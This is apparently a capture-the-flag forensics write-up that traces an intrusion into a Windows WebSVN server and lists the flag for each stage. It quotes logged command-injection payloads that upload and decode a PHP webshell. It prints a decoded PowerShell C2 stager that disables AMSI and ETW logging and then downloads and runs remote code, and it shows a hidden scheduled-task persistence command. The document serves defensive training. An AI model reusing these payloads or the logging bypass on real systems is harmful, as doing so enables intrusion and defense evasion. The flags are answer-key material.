





# Webserver logs

There are interesting queries in the webserver access logs. This is one of the early signs of the attack, giving the start of the timeframe where other events should be looked upon. There are signs of attacking the WebSVN server.

[c:\inetpub\logs\LogFiles\W3SVC1\u_ex220725.log](workdir/u_ex220725.log)

```log
2022-07-25 13:10:12 192.168.248.140 GET /listing.php repname=work&template=calm 80 - 192.168.248.133 Mozilla/5.0+(X11;+Linux+x86_64;+rv:91.0)+Gecko/20100101+Firefox/91.0 http://192.168.248.140/listing.php?repname=work&template=Elegant 200 0 0 231
2022-07-25 13:10:22 192.168.248.140 GET /search.php repname=work&search=%22%26flag%7Bdef_1_7e7b364a9671dc7eb51415d302474689%7D%26 80 - 192.168.248.133 Mozilla/5.0+(X11;+Linux+x86_64;+rv:91.0)+Gecko/20100101+Firefox/91.0 http://192.168.248.140/listing.php?repname=work&template=calm 500 0 0 255
2022-07-25 13:10:43 192.168.248.140 GET /search.php repname=work&search=%22%26ping+127.0.0.1+-n+6+%3E+nul%26%22 80 - 192.168.248.133 Mozilla/5.0+(X11;+Linux+x86_64;+rv:91.0)+Gecko/20100101+Firefox/91.0 http://192.168.248.140/listing.php?repname=work&template=calm 500 0 0 5357
2022-07-25 13:10:58 192.168.248.140 GET / - 80 - 192.168.248.133 Mozilla/5.0+(X11;+Linux+x86_64;+rv:91.0)+Gecko/20100101+Firefox/91.0 - 302 0 0 66

```


The flag is there urlencoded.

# Flag WebProbe
`flag{def_1_7e7b364a9671dc7eb51415d302474689}`

# Webshell

There are also traces in the logs that a `YD2kb6.ZiP.B64` file was uploaded then decoded  (`c:\php\YD2kb6.ZiP.B64` -> `YD2kb6.ZiP` -> `YD2kb6.php`). The php file contains the flag encoded.

```log
2022-07-25 13:23:01 192.168.248.140 GET /search.php repname=work&search=%22%26echo+UEsDBBQAAgAIALB6%2BVRrlN1P6QQAAPQNAAAKAAAAWUQya2I2LnBocLVX%2B0%2FcOBD%2BV0K1Wie6dLsPSoGQBemoVHRXQIWKK9wqysMhEdkkip1Cu%2BR%2Fv%2FErrwtd7odDgtifx988PJ4xR8d5lGt%2B4hKiXUU4STZ5EX93KdZGbhAUdlomiVVDeVbQHpSRHkAYSw8LMPGLOKdZQXLs225RuD%2F0qb0UA5THOUYmKpBhzvrgI4DzAdBo2L0yDHFhz6bz3Qb0E5za02aOiyIr7NBNCLby0ktiXwvL1KdxlmqO42cpoUXpU527bXJPjc2IRjF5u%2BSR4AuWRHgguJBVKRU1XYApBibYLkY4sIEbW3Gog5I4z4h%2B%2BenSubgy0c3Z%2BWKOjB1bWPb8PCBwfr1F4PTi5qoRqa2Gk6lXld3icJC%2FDib4CSOrwrCjZaeIT1VgWhapVuNDTrp4naXxT8z8xE8xlXvByR0l5ABOKIFj81OaOGFWPMDBbbhSDQT1UR4H9kmzqhvG0bQlwNaXU6WAB7G2jUEDdhFMaZzeEzDrhJ%2B5U2B2ToDpU8M6gXWHxmvsJPE6phwq1y55YKMBL8t1ro8Cl7rsNOFjQ%2FwZY%2BL6WEdHkIvjhFrIFDLWgMySydy3ZLAfZRofDygssBvoIyDA7tocpe4amzK%2FjQ2PGFdwEnblpIRh93NAZH03cC9ofixiivuqhedcsfeDYgKae3Jc4nWKOcOQz4%2F6KE7zkpqjrKT8Gwv1GfsYm8coTrDyXSoQAZDbpLhYUcEYjyUgLVbcWcs17ltzX%2BzmxsBuLsiwq%2BvTs3NU%2B8ZKy2%2FskOErk8Oq5ForYazq3656W30dhYS6cJnYXykKaUXgotli6Q6xCVpZv7A8bll%2B8fUa1aFgpqt4tqDldDxWJ9yG7U5IjzuzwzZlrWDoWDiv0QnfW1tmA%2FesnlWVNI2hHaM48GtzmIjBtmxLE2nP6%2FKja%2BDwKffaSVGmejuxVD8Yj3cU0hTPOixN4YKgZP4DpnDZ2CDLWZo1nchs9SCT9bU04x9ISHMBVYwpFgTGRtxShxU9LwGMVUG5aIoLa43yIvMxgavNBk5bG%2B8WZu1Fu4dDh4RWTEzW5%2FkfoVdyGRuo5tj1I12IaS7R%2BOgFi9iSsqcasSwvic3NuQc5MW%2FIraYICU%2FeXF38%2FsfH60PxgtEi0AYNPeWta0e7PDs91DaS9Q6eEAFaVX%2BnbwwryDbblYFbIc6amBobDzx4sOomJVa5n3ezlfH8vFPrgkxIwUG0qjfJuknkGwix%2FETqeaP8qcnUaL4y4NHDfAZZHnKEn3ycUzmFU0zLteNHbnqPA0fpOKmDnbAEVLrvhFZgrwHB3UYk%2F8qUGTXEXxf9XkSGhFkb71esP8%2FOv%2F6FOB6nTi8GPWObi8JKaDdQ05WJRApAr5XF2qo6rCqOW3hbYkIDo%2Fv45QuqFQwTz15HPOsSs9LcJm4COFTX%2F8c46d2uUycdq5GdplOTe%2F8lWoP0s1fSb4uZ6hmqtvKXh2G9WIBCP8kIFjh%2F8sHFV5C685USkneeq2HvNnSUL9HEcwne23UC7GcBvPBu10%2FR7YI%2B3N7chp%2BT%2Ffff1t%2BmyJhE%2BGnuxamOFtPFAfy%2BBwwOq8DfdVQt9oIPM3%2Ffw%2BEimC5mMPO9D97BAcigo3egRDwTQV%2BBYQL%2FVdkpfhQFTkezg%2Flktrc%2Fme%2FuT2aLBTJ34Yf1jQiOnXUfq0yhwoL9kaGI3gkm7Xj5D1BLAQIUABQAAgAIALB6%2BVRrlN1P6QQAAPQNAAAKAAAAAAAAAAEAIAAAAAAAAABZRDJrYjYucGhwUEsFBgAAAAABAAEAOAAAABEFAAAAAA%3D%3D%3Ec%3A%5Cphp%5CYD2kb6.ZiP.B64%26%22 80 - 192.168.248.133 Mozilla/5.0+(X11;+Linux+x86_64;+rv:91.0)+Gecko/20100101+Firefox/91.0 http://192.168.248.140/listing.php?repname=work 500 0 0 1328
2022-07-25 13:30:05 192.168.248.140 GET /search.php repname=work&search=%7C%22%26cd+%5CpHp%26cERtUtIl+-dEcOdE+YD2kb6.ZiP.B64+YD2kb6.ZiP%26%22 80 - 192.168.248.133 Mozilla/5.0+(X11;+Linux+x86_64;+rv:91.0)+Gecko/20100101+Firefox/91.0 http://192.168.248.140/listing.php?repname=work 500 0 0 892
2022-07-25 13:34:48 192.168.248.140 GET /search.php repname=work&search=%7C%22%26cd+%5CpHp%26TaR+-xf+YD2kb6.ZiP%26%22 80 - 192.168.248.133 Mozilla/5.0+(X11;+Linux+x86_64;+rv:91.0)+Gecko/20100101+Firefox/91.0 http://192.168.248.140/listing.php?repname=work 500 0 0 673
2022-07-25 13:37:04 192.168.248.140 GET /search.php repname=work&search=%7C%22%26cd+%5CpHp%26pHp+YD2kb6.PHp%26%22 80 - 192.168.248.133 Mozilla/5.0+(X11;+Linux+x86_64;+rv:91.0)+Gecko/20100101+Firefox/91.0 http://192.168.248.140/listing.php?repname=work 500 0 258 100452
```

The part of the decoded php with flag.

```php
echo base64_decode('ZmxhZ3tkZWZfMl85YmY0').hex2bin('30393035').strrev('}36d71c8bef3d0316d7cb7b99');
```

# Flag WebShell
`flag{def_2_9bf4090599b7bc7d6130d3feb8c17d63}`

# Privesc

Looking malicious artifacts around/after `2022-07-25 13:10:22`.

The `c:\Users\Public\` is a common place to drop payloads. There were 2 new files created based on the search: `defender.bat` and `dusmapi.dll`.

The former is turning off the antivirus, the latter is a binary that can be used for privesc, with the flag.



# Flag Privesc
`flag{def_3_38adb16bf4985ab3dd135d236c804941}`

# C2

There are suspicious event logs around the other events, (`7/25/2022 16:38:24`). Running `powershell -noP -sta -w 1 -enc <base64str>`.



The decoded command.

```powershell
If($PSVersionTable.PSVersion.Major -ge 3){$Ref=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils');$Ref.GetField('amsiInitFailed','NonPublic,Static').Setvalue($Null,$true);[System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0);};[System.Net.ServicePointManager]::Expect100Continue=0;$wc=New-Object System.Net.WebClient;$u='flag{def_4_dd0711788d0095025fe4afedffbe7331}';$ser=$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('aAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMgA0ADgALgAxADMAMwA6ADgAMAA4ADAA')));$t='/admin/get.php';$wc.Headers.Add('User-Agent',$u);$wc.Proxy=[System.Net.WebRequest]::DefaultWebProxy;$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;$Script:Proxy = $wc.Proxy;$K=[System.Text.Encoding]::ASCII.GetBytes('lrmY^e_.E24qXpy[|?uAdwg,V6SOvK%T');$R={$D,$K=$Args;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.Count])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bxor$S[($S[$I]+$S[$H])%256]}};$wc.Headers.Add("Cookie","gxPIiBUKLYy=saJGQPWUCg8AReQwuq94LZ0mWQ0=");$data=$wc.DownloadData($ser+$t);$iv=$data[0..3];$data=$data[4..$data.length];-join[Char[]](& $R $data ($IV+$K))|IEX 
```

While the first thing the script does is to turn off scriptblock logging, there were leftovers. This event log was not deleted like System either. The script is downloading encrypted data from the `http://192.168.248[.]133:8080/admin/get.php` C2 server. `$u` contains the flag in the code.

# Flag C2#1
`flag{def_4_dd0711788d0095025fe4afedffbe7331}`

# Autoruns
Checking [Autoruns](https://learn.microsoft.com/hu-hu/sysinternals/downloads/autoruns) reveals the `\Updater` scheduled task.



Checking the descriptor `c:\Windows\System32\Tasks\Updater` reveals the next command. The creation time also shows that it is relevant. The registry key is similar to the other C2 script, starting it from [SAM](https://learn.microsoft.com/en-us/windows/win32/sysinfo/registry-hives) hive.

```xml
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Date>2022-07-25T16:53:20</Date>
    <Author>WORKGROUP\WIN-G59KIL646VK$</Author>
    <URI>\Updater</URI>
  </RegistrationInfo>
  <Triggers>
    <CalendarTrigger>
      <StartBoundary>2022-07-25T09:00:00</StartBoundary>
      <Enabled>true</Enabled>
      <ScheduleByDay>
        <DaysInterval>1</DaysInterval>
      </ScheduleByDay>
    </CalendarTrigger>
  </Triggers>
  <Settings>
  ....
  <Actions Context="Author">
    <Exec>
      <Command>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Command>
      <Arguments>-NonI -W hidden -c "IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp HKLM:SAM flag{def_5_3e02c5f1767a16cfc6bb89ddde54a8bd}).flag{def_5_3e02c5f1767a16cfc6bb89ddde54a8bd})))"</Arguments>
    </Exec>
  </Actions>
  ...
</Task> 

```


# Flag C2#2
`flag{def_5_3e02c5f1767a16cfc6bb89ddde54a8bd}`

# SVN
There are multiple signs that this is a development machine (svn, nodejs).

Based on the `c:\Users\Administrator\npm-deps\README.txt`, the dependencies are stored there.

```
These are dependencies that we use for our builds.
```

The dependencies are on github (see `.github` folder). Installing git can clone a fresh variant and copying over the files can check the modifications easily.

For example `Express JS 4.18.1 / 2022-04-29`. <https://github.com/expressjs/express/commit/d854c43ea177d1faeea56189249fff8c24a764bd>

There is an extra file in the express (Express.js) directory.

```
c:\Users\Administrator\npm-deps\express\lib\router\http.js
```



Upon closer look, this is am obfuscated, out of place file.



Quick analysis reveals it is dropping the flag in the user directory (`userHomeDir`, `flag6.txt`, `flag{def_6...`)

Can be checked with [Procmon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) during runtime. The flag is under `c:\Users\Administrator\flag6.txt`.


# Flag Poison
`flag{def_6_2faeee9ac1871c8f17c55c2050cf2899}`